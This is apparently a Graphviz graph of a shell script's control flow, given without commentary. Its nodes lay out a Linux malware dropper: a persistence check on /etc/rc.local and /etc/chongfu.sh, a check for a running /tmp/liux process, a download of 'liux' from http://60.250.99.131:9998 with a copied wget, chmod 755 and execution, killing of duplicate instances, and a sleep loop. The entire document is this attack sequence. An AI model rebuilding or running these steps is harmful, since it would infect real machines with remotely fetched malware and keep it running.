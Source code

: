 digraph {
12 [label=" cat /etc/rc.local"];
12 -> 16;
16 [label=" grep /etc/chongfu.sh"];
16 -> 20;
20 [label=" grep -v grep"];
20 -> 27;
20 -> 31;
20 -> 41;
31 [label=" echo sh /etc/chongfu.sh & "];
31 -> 41;
392 [label=" sleep 999"];
392 -> 41;
27 [label=" echo "];
27 -> 41;
41 [label=" \[ 1 \]"];
41 -> 52;
52 [label=" ps aux"];
52 -> 56;
56 [label=" grep /tmp/liux"];
56 -> 60;
60 [label=" grep -v grep"];
60 -> 65;
65 [label=" wc -l"];
65 -> 73;
73 [label=" \[ $Centos_sshd_killn -eq 0 \]"];
73 -> 87;
73 -> 147;
87 [label=" \[ ! -f /tmp/liux \]"];
87 -> 99;
87 -> 142;
99 [label=" \[ -f /usr/bin/wget \]"];
99 -> 107;
99 -> 136;
99 -> 142;
107 [label=" cp /usr/bin/wget ."];
107 -> 112;
112 [label=" chmod +x wget"];
112 -> 117;
117 [label=" ./wget -P /tmp/ http://60.250.99.131:9998/liux "];
117 -> 125;
125 [label=" chmod 755 /tmp/liux"];
125 -> 130;
136 [label=" echo No wget"];
136 -> 142;
130 [label=" rm wget -rf"];
130 -> 142;
147 [label=" \[ $Centos_sshd_killn -gt 1 \]"];
147 -> 164;
147 -> 215;
147 -> 224;
164 [label=" ps aux"];
164 -> 168;
168 [label=" grep liux"];
168 -> 172;
172 [label=" grep -v grep"];
172 -> 177;
203 [label=" continue"];
203 -> 186;
203 -> 224;
206 [label=" kill -9 $killed"];
206 -> 186;
206 -> 224;
177 [label=" awk {print $2}"];
177 -> 186;
194 [label=" \[ $Centos_sshd_killn -eq 1 \]"];
194 -> 186;
194 -> 203;
194 -> 206;
194 -> 224;
186 [label=" $Centos_sshd_killn-1"];
186 -> 194;
215 [label=" echo "];
215 -> 224;
142 [label=" /tmp/liux"];
142 -> 224;
224 [label=" ps aux"];
224 -> 228;
228 [label=" grep /tmp/liux"];
228 -> 232;
232 [label=" grep -v grep"];
232 -> 237;
237 [label=" wc -l"];
237 -> 245;
245 [label=" \[ $Centos_ssh_killn -eq 0 \]"];
245 -> 259;
245 -> 319;
259 [label=" \[ ! -f /tmp/liux \]"];
259 -> 271;
259 -> 314;
271 [label=" \[ -f /usr/bin/wget \]"];
271 -> 279;
271 -> 308;
271 -> 314;
279 [label=" cp /usr/bin/wget ."];
279 -> 284;
284 [label=" chmod +x wget"];
284 -> 289;
289 [label=" ./wget -P /tmp/ http://60.250.99.131:9998/liux "];
289 -> 297;
297 [label=" chmod 755 /tmp/liux"];
297 -> 302;
308 [label=" echo No wget"];
308 -> 314;
302 [label=" rm wget -rf"];
302 -> 314;
319 [label=" \[ $Centos_ssh_killn -gt 1 \]"];
319 -> 336;
319 -> 387;
319 -> 392;
336 [label=" ps aux"];
336 -> 340;
340 [label=" grep liux"];
340 -> 344;
344 [label=" grep -v grep"];
344 -> 349;
375 [label=" continue"];
375 -> 358;
375 -> 392;
378 [label=" kill -9 $killed"];
378 -> 358;
378 -> 392;
349 [label=" awk {print $2}"];
349 -> 358;
366 [label=" \[ $Centos_ssh_killn -eq 1 \]"];
366 -> 358;
366 -> 375;
366 -> 378;
366 -> 392;
358 [label=" $Centos_ssh_killn"];
358 -> 366;
387 [label=" echo "];
387 -> 392;
314 [label=" /tmp/liux"];
314 -> 392;
}
